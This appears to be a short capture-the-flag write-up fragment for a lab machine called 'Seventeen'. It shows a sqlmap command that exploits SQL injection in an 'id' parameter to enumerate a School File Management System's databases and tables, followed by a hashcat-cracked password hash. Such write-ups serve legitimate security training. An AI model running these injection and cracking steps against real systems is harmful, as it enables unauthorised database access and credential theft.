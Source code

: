 ### Enumerate db of School File Management System

```console
└─╼$ sqlmap -r request.txt -p id --batch --dbs
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb

Database: db_sfms
[3 tables]
+---------+
| storage |
| user    |
| student |
+---------+

Database: db_sfms
Table: storage
[1 entry]
+----------+---------+----------------------+-----------------+----------------------+
| store_id | stud_no | filename             | file_type       | date_uploaded        |
+----------+---------+----------------------+-----------------+----------------------+
| 33       | 31234   | Marksheet-finals.pdf | application/pdf | 2020-01-26, 06:57 PM |
+----------+---------+----------------------+-----------------+----------------------+
```

![image-20240305014450251](./Seventeen.assets/image-20240305014450251.png)

![image-20240305014830240](./Seventeen.assets/image-20240305014830240.png)

- hashcat: `a2afa567b1efdb42d8966353337d9024:autodestruction`
